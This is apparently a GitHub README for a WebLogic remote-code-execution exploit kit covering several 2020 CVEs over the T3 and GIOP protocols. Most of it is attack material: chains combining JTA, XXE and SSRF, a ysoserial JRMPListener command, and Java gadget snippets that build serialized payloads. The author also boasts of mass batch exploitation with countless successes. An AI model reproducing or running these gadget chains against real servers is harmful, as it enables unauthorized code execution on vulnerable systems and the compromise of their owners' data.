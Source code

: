 Twitter: [@Hktalent3135773](https://twitter.com/Hktalent3135773)
[![Tweet](https://img.shields.io/twitter/url/http/Hktalent3135773.svg?style=social)](https://twitter.com/intent/tweet?original_referer=https%3A%2F%2Fdeveloper.twitter.com%2Fen%2Fdocs%2Ftwitter-for-websites%2Ftweet-button%2Foverview&ref_src=twsrc%5Etfw&text=myhktools%20-%20Automated%20Pentest%20Recon%20Scanner%20%40Hktalent3135773&tw_p=tweetbutton&url=https%3A%2F%2Fgithub.com%2Fhktalent%2Fmyhktools)
[![Follow on Twitter](https://img.shields.io/twitter/follow/Hktalent3135773.svg?style=social&label=Follow)](https://twitter.com/intent/follow?screen_name=Hktalent3135773)

# 1、Weblogic RCE exploit
CVE_2020_2546 CVE-2020-2915 CVE-2020-2801  CVE-2020-2798  CVE-2020-2883 CVE-2020-2884 CVE-2020-2950 WebLogic RCE T3 payload exploit poc python3

# 2、exploit
- GIOP + send bind (CVE-2020-2555、CVE-2019-2888<XXE>、CVE-2019-2888<XXE+SSRF> or others)
- GIOP + send jta (rmi or others)
- GIOP + send jta + SSRF
- T3 + send jta
- T3 + send jta + SSRF
- T3 + send XXE
- T3 + send XXE + SSRF

#### 2.1、rmi server,see
- don't use org.mozilla.classfile.DefiningClassLoader
- don't use java -cp $mtx/../tools/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1099 Jdk7u21 'whoami'
more see:
https://github.com/hktalent/CVE-2020-2551

# 3、code
### 3.1、code1
```
MVEL.compileExpression
MvelExtractor o = new MvelExtractor("xxx;");
		ObjectOutputStream oo = new ObjectOutputStream(System.out); 
		oo.writeObject(o);
		oo.flush();
```

### 3.2、code2
```
public MsgOutput getObject(final String command) throws Exception {
	  String jndiAddress = command;
		JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
		jtaTransactionManager.setUserTransactionName(jndiAddress);
		MsgOutput remote = Gadgets.createMemoitizedProxy(Gadgets.createMap("pwned", jtaTransactionManager), MsgOutput.class);
    return remote;
  }
```

### 3.3、code3
```
public IORDelegate getObject(final String command) throws Exception {
IORDelegate ior = Gadgets.createMemoitizedProxy(Gadgets.createMap("pwned", new Jdk7u21().getObject("whoami")), IORDelegate.class);
    return ior;
  }
```

### 3.4、code4
```
weblogic.iiop.IIOPRemoteRefd,ObjectMessageImpl
```

# 4、CVE-2020-2546 payload
#### 批量一波，成功无数
<img width="621" alt="image" src="https://user-images.githubusercontent.com/18223385/75693161-8c550300-5ce1-11ea-9c28-3e81a6c72d28.png">


# 5、thanks for
@[r4v3zn](https://github.com/r4v3zn)
@[0nise](https://github.com/0nise)
